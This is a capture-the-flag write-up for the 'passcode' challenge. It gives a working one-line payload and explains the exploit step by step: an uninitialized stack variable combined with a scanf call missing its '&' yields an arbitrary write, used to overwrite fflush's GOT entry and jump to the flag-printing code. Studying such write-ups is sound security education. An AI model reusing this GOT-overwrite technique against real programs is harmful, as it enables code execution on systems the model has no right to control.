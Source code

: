 # Exploit
```sh
python -c 'print("A"*96 + "\x04\xa0\x04\x08\n134514135")' | /home/passcode/passcode
```

# Why it work

Ok so you have to do some debugging (and reading the code obviously) but because of the stack is aligned, there's some overlap in the stack between functions, let me explain. At first, welcome() reads 100 charcaters to the stack with:
```c
char name[100];
...
scanf("%100s", name);
...
```
So now if you supply a 100 characters (or less) to the program, they will obviously be in the stack.
If you supply more then scanf() will simply ignore them because the 100 in "%100s" tells scanf() to not take more than a 100 characters. You can try to input more and examine the stack and see that the rest of the charcaters after the 100 will simply not be there. 
After welcome(), login() is called. Here something intresting happens:
```c
void login(){
	int passcode1;
	int passcode2;
    ...
```
Right the the start of login() we see two ints being declared, but not initialized with any value. So what will be their value? To that we have to look over the stack. 
We can see on the start of wellcome that 0x88 (136 in decimal) bytes are being given to the stack, by esp being substracted with 0x88.
```asm
(gdb) disas welcome
Dump of assembler code for function welcome:
   0x08048609 <+0>:	push   ebp
   0x0804860a <+1>:	mov    ebp,esp
   0x0804860c <+3>:	sub    esp,0x88
```
After welcome(), in login 0x28 (40 in decimal) bytes are being given to the stack. And because the stack is the same stack because the program is the same program, we've got a big of an alignment between the two stack frames of the two functions. Calculating the difference between the two stack frames, we get 96, because 0x88 - 0x28 = 0x60, or 136 - 40 = 96. So we have 4 bytes left that aren't in the difference between the two stack frames, which means that they will carry on with us to login(), from welcome(). And because a 100 bytes are being written to the stack on welcome(), the last 4 of those 100 bytes will carry with us to login(), and because ints in c are really just parts of the stack, because passcode1 is uninitiallized the 4 leftover bytes will go into it - maybe if it was initialzed the last 4 bytes would've been simply overwritten. (Now I wonder what are those 36 bytes in every start of a function, because in welcome() they aren't the buffer name[100] and are anything in login() afaik because the last 4 of the 40 of login are int passcode1). What's up with passcode2 then? Well, only 4 bytes were carried on from welcome(), so it won't contain something user controllable (or even useful tbh), and after some debugging I've found it really just contains junk. So now we can control passcode1! But what can we do with this? Well, for that let's look at the rest of login(). 
```c
	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);
```
After the decleration of the two ints above we see calls to printf(), scanf() anf fflush(). The printf() call is really unintresting, because it's simply printing stuff. However, the scanf() call right after it is where the fun begins. Here, scanf() scans user input, and writes it to the memroy location being pointed to by passcode1. Why is that? Well that's because scanf(), gets two arguments: a format string and (in the case here of scanning for an integer) a *pointer* to where to write the scanned inetegr. If we wanted to write to passcode1 itself than scanf() should've recevived a pointer to passcode1, and be writte like this:
```c
scanf("%d", &passcode1);
```
The & sign tells the compiler to pass the pointer to passcode1 as an argument to scanf() instead of what actually happens in this program, that the contens of passcode1 gets passed. Why is this important? Because it allows us arbitrary memory write to the programs memory! This way we could write somewhere in the program to make something happen so we get the flag. About that, what about the fflush() call right afterwards? Maybe can we write somewhere to make fflush() give us the flag? Well, not exactly, but we can use this call to get it. To this let's examine fflush():
```gdb
(gdb) disas fflush
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:	jmp    DWORD PTR ds:0x804a004
   0x08048436 <+6>:	push   0x8
   0x0804843b <+11>:	jmp    0x8048410
End of assembler dump.
```
Disassembling fflush() we can see that its code isn't in the program, but there's a simple jump to somewhere. Let's examine that memory of this somewhere:
```gdb
(gdb) x 0x804a004
   0x804a004 <fflush@got.plt>:	test   BYTE PTR ss:[eax+ecx*1],al
```
It's being pointed to the GOT - the Global Offset Table. The GOT is part of (apprently in this program at least, writeable) memory that is used for dynamic linking of functions. In this program, various glibc functions like fflush() are being called to but aren't in the program itself, because they're dynamically linked during runtime to the function in other parts of the OS. This is useful because it saves time in compilation, the compiler doesn't have to compile the same functions all the time, and because thanks to this the programs compiled can be smaller because the regularily used glibc functions don't need to be compiled in every new program that uses them, a simple link between the call in the program to the function is formed, using pointers. As we ca see here, the pointer 0x804a004 is obviously now pointing to junk, as ```test   BYTE PTR ss:[eax+ecx*1],al``` isn't appears to be a valid asm code of fflush(), that is probably because this memry examination is before running the program (inside gdb), so the dynamic linker has yet did the link. So in execution of this program, what's being pointed to by 0x804a004 will run, and in normal execution this will be fflush(), but, we don't want normal execution, we want 1337 h4x and the flag. So to get the flag we need 0x804a004 to point where we want so our program jumps there and get's us the flag. And how handy is that, there is part of the program that prints out the flag! It's this in C:
```c
                printf("Login OK!\n");
                system("/bin/cat flag");
```
And this in asm:
```asm
   0x080485d7 <+115>:	mov    DWORD PTR [esp],0x80487a5
   0x080485de <+122>:	call   0x8048450 <puts@plt>
   0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:	call   0x8048460 <system@plt>
```
In normal execution this part never gets executed because of the ```if(passcode1==338150 && passcode2==13371337){``` statement, which is never true because you can't really write to passcode1 and passcode2 (unless you've found a cl3v3r way to do it). Jumping to this part should give us our flag and it does, by making 0x804a004 point to 0x080485d7. To do this we need use the first scanf() i login() to write to 0x804a004 the value 0x080485d7, and to do this we need to create this attack string:
```
96 bytes for padding + 4 byte memory pointer for scanf() + \n + a number that will be our memory location of the flag printing instructions
```
The initial 100 bytes will be scanned by the scanf() in welcome(), then the \n will tell it to stop scanning and continue execution, then the first scanf() in login() will get a number which it will write to passcode1, and because now passocode1 = 0x804a004, this number will be written to 0x804a004. This number needs to equal 0x080485d7 so we can resume execution there when fflush() is supposed to be called, so we give it the number 134514135 which is 0x080485d7 in decimal. That's why the string ends like this:
```
"A"*96 + "\x04\xa0\x04\x08\n134514135"
```
After 134514135 is written to 0x804a004 the program jumps to 0x080485d7 and prints the flag!